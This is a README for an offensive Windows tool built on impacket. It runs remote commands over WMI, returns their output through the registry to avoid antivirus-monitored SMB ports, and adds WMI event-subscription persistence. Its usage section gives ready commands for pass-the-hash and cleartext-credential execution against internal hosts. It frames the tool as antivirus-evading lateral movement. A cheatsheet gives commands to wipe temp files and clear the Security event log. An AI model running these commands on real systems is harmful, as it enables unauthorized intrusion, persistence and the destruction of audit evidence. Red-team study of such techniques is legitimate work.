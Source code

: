 ## :no_entry: [DEPRECATED] Active at https://github.com/XiaoliChan/wmiexec-Pro

# wmiexec-RegOut

Modify version of impacket wmiexec.py,wmipersist.py. Got output(data,response) from registry, don't need SMB connection, but I'm in the bad code :(

# Table of content

* [Overview](#overview)
* [Requirements](#Requirements)
* [Usage](#Usage)
* [Cheatsheet](#Cheatsheet)
* [Todo](#todo)
* [References](#References)

## Specially Thanks to:

- ### [@rootclay](https://github.com/rootclay), wechat: _xiangshan

## Overview

In original wmiexec.py, it get response from smb connection (port 445,139). Unfortunately, some antivirus software are monitoring these ports as high risk.  
In this case, I drop smb connection function and use others method to execute command.

- wmiexec-reg-sch-UnderNT6-wip.py: Executed command by using win32-scheduledjob class. According to xiangshan, win32-scheduledjob class only works under windows NT6 (windows-server 2003).  
BTW, win32_scheduledjob has been disabled by default after windows NT6. Here is the way how to enable it.
```text
Key: HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\Configuration 
Name: EnableAt 
Type: REG_DWORD
Value: 1
```

- wmipersist-wip.py `(Highly recommend, !!!only works on impacket v0.9.24!!!)`: A Python version of [WMIHACKER](https://github.com/rootclay/WMIHACKER), which I picked the vbs template from it. Attacker can use it to do lateral movement safety under antivirus-software running.


- wmiexec-regOut.py: Just a simple Win32_Process.create method example .

## How it works?

- ### wmiexec-wip.py workflow:  
  Step 1:
   - WMIC authenticated remotly

  Step 2:
    - Use win32process class and call create method to execute command. Then, write down the result into C:\windows\temp directory named [uuid].txt

  Step 3:
    - Encode the file content to base64 strings (need to wait a few seconds)

  Step 4:
    - Add the converted base64 string into registry, and key name call [uuid]

  Step 5:
    - Get the base64 strings remotly and decode it locally.

- ### wmipersist-wip.py workflow:  
  Step 1:
   - Add custom vbs script into ActiveScriptEventConsumer class.

  Step 2:
   - Creating an Event Filter.

  Step 3:
   - Trigger FilterToConsumerBinding class to PWNED!

## Requirements

Generally, you just need to install official impacket.  
- [Portal](https://github.com/SecureAuthCorp/impacket)

## Usage
- ### wmiexec-wip.py usage:  
  With cleartext password
  ```bash
  python3 wmiexec-reg.py administrator:111qqq...@192.168.10.90 'whoami'
  ```
  ![image](https://user-images.githubusercontent.com/30458572/134797669-6d62e72f-a005-4001-aa47-09a9ffe86ae1.png)

  With NTLM hashes
  ```bash
  python3 wmiexec-reg.py -hashes e91d2eafde47de62c6c49a012b3a6af1:e91d2eafde47de62c6c49a012b3a6af1 administrator@192.168.10.90 'whoami'
  ```
  ![image](https://user-images.githubusercontent.com/30458572/137060383-7c13086c-0d4a-424d-a00a-561de836cacb.png)

- ### wmipersist-wip.py usage (Default is no output):  
  With cleartext password (without output)
  ```bash
  python3 wmipersist-wip.py administrator:111qqq...@192.168.10.20 'command'
  ```
  ![image](https://user-images.githubusercontent.com/30458572/137947814-2185d6b4-a20c-4bfc-804b-e5953bb016ac.png)

  With NTLM hashes
  ```bash
  python3 wmipersist-wip.py -hashes e91d2eafde47de62c6c49a012b3a6af1:e91d2eafde47de62c6c49a012b3a6af1 administrator@192.168.10.90 'whoami'
  ```
  ![image](https://user-images.githubusercontent.com/30458572/137948043-6d419057-5b62-45d4-a4df-e625b604dddd.png)

  With output
  ```bash
  python3 wmipersist-wip.py administrator:111qqq...@192.168.1.20 "whoami /priv" -with-output
  python3 wmipersist-wip.py administrator@192.168.1.20 "whoami /priv" -hashes e91d2eafde47de62c6c49a012b3a6af1:e91d2eafde47de62c6c49a012b3a6af1 -with-output
  ```
  ![image](https://user-images.githubusercontent.com/30458572/137948435-3f0fc14b-252f-411a-a681-9ba323edccb0.png)
  ![image](https://user-images.githubusercontent.com/30458572/137948639-c5f75993-bde2-47b9-8717-5e5309a36dd4.png)
  
  Under Huorong antivirus-software (Using WMIHACKER VBS template!!!)
  ![2ef86c8d934dc45498478aa9aedd91c](https://user-images.githubusercontent.com/30458572/137949219-b849be89-321e-4d1b-abf9-951509544679.png)

## Cheatsheet
  
  - Do not forget to clean up temp directory after run command with out put.  
  Command: `del /q /f /s C:\windows\temp\*`  
  ![image](https://user-images.githubusercontent.com/30458572/147390683-5556f7a0-17da-4308-8f16-e82783ab42b3.png)

  - Command include double quotes.  
  Make double quotes inside single quotes `wevtutil cl '"security"'`  
  ![image](https://user-images.githubusercontent.com/30458572/147390799-a3725a15-3c1c-4d63-850d-04e372ce04f7.png)
  
## Todo

- New version of wmi toolkit, Comming sonn :)

## References
- https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py
- https://github.com/360-Linton-Lab/WMIHACKER
- https://github.com/FortyNorthSecurity/WMIOps
- https://docs.microsoft.com/en-us/windows/win32/cimwin32prov/operating-system-classes
